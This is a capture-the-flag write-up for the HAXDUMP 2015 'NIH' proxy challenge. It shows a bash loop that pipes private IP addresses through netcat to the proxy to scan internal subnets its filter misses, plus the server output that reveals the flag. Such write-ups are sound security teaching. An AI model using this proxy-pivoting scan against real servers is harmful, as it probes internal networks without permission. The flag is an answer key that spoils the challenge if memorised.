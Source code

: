 ## HAXDUMP 2015 - NIH (Pwn 150)
##### 07/02/2015 (8hr)
___

### Description: 
NIH Inc. developed its own proxy server. I've heard its firewall is impenetrable, 
so don't bother trying to outsmart it.

Running at nih.haxdump.com port 9111
___
### Solution

A quick look on the source code shows that there are no "exploitable" bugs. We have a proxy server
here. What this means? The proxy may has access to some other machine in the internal network.
Let's see the filter function. We filter the subnets:
```
	127.0.0.0/8
	54.0.0.0/8
	0.0.0.0/8
```
But not the subnets:
```
	192.168.0.0/16
	172.16.0.0.16
	10.0.0/8
```
Let's try to connect to these networks ($i denotes a range 1-254):
```
	192.168.0.$i
	192.168.1.$i
	10.0.0.$i
	172.16.0.$i
	172.16.1.$i
```
Here's the script for doing this job:
```
	for ((i=0; i<256; i++)); 
	do 
		echo 10.0.0.$i | nc nih.haxdump.com 9111; 
	done
```
And the results are:
```
[..... TRUNCATED FOR BREVITY .....]
NIH Proxy
Specify an HTTP server to connect to
DNS is too hard; just provide an IP address
Connecting to 10.0.0.57
NIH Proxy
Specify an HTTP server to connect to
DNS is too hard; just provide an IP address
Connecting to 10.0.0.58
	HTTP/1.1 200 OK
	Date: Sat, 07 Feb 2015 21:52:23 GMT
	Server: Apache/2.4.7 (Ubuntu)
	Last-Modified: Tue, 03 Feb 2015 21:50:51 GMT
	ETag: "8c-50e36107e3f4e"
	Accept-Ranges: bytes
	Content-Length: 140
	Vary: Accept-Encoding
	Content-Type: text/html

	<html>
	 <body>
	  <h1>NIH Proxy Status</h1>
	  <p>
	   Host: 127.0.0.1<br/>
	   Flag: cache_invalidation_is_easier<br/>
	  </p>
	 </body>
	</html>
NIH Proxy
Specify an HTTP server to connect to
DNS is too hard; just provide an IP address
Connecting to 10.0.0.59
[..... TRUNCATED FOR BREVITY .....]
```
So the flag is: **cache_invalidation_is_easier**
___